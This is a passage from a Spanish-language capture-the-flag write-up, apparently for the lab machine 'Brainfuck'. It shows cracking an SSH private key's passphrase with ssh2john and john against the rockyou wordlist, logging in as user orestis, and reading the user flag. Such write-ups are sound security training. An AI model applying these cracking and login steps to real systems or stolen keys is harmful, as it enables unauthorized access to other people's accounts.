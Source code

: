 Creo un hash para tratar de romperlo con john

```null
ssh2john id_rsa > hash
```

Aplico fuerza bruta

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)     
1g 0:00:00:03 DONE (2023-01-21 17:35) 0.2881g/s 3590Kp/s 3590Kc/s 3590KC/s 3prash0..3pornuthin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Teniendo la contraseña, me puedo conectar a la máquina víctima proporcionando la id_rsa, el usuario orestis y la contraseña de la clave privada

```null
ssh -i id_rsa orestis@10.10.10.17
The authenticity of host '10.10.10.17 (10.10.10.17)' can't be established.
ED25519 key fingerprint is SHA256:R2LI9xfR5z8gb7vJn7TAyhLI9RT5GEVp76CK9aoKnM8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.17' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Mon Oct  3 19:41:38 2022 from 10.10.14.23
orestis@brainfuck:~$
```

Puedo visualizar la primera flag

```null
orestis@brainfuck:~$ cat user.txt 
2c11cfbc5b959f73ac15a3310bd097c9
```

# Escalada (No intencionada)
